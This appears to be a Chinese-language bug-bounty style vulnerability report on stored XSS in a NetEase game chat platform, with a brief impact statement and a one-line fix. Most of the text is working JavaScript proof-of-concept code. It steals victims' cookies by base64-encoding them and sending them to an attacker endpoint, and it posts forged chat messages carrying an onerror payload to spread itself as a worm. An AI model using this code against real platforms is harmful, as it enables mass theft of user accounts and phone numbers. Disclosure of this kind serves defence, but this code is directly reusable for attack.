         // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取并发送cookie，可能带有手机号
        const sendCookie = () => {
            var encoded = encode(document.cookie)
            // send data
            justSend(api_burp + '?data=' + encoded)
        }

        // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881854", "channelId": "1459481", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "<img src=x onerror=console.log(111222233)>", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
            /* your code here */
        } else {
            //web端
            //发送cookie
            sendCookie()
            //伪造发分享消息
            startSendLinkMessage()
        }


## 漏洞危害
该漏洞影响网页端所有聊天频道，注意到每个游戏频道都有几十上百万用户，影响深远。用户只要进入聊天界面，无需任何操作就能够遭受攻击。
1. 攻击者可以在聊天群直接嵌入XSS，无需受害者进行操作，能够大规模收集平台用户手机号和账号信息，造成敏感信息泄漏；
2. 攻击者可以在聊天群直接嵌入XSS，无需受害者进行操作，能够伪造用户发消息等，制造XSS蠕虫，实现XSS帖子的自我复制，扩大影响。

## 修复建议
1. 对签到的内容进行过滤，而非直接复杂给innerHTML

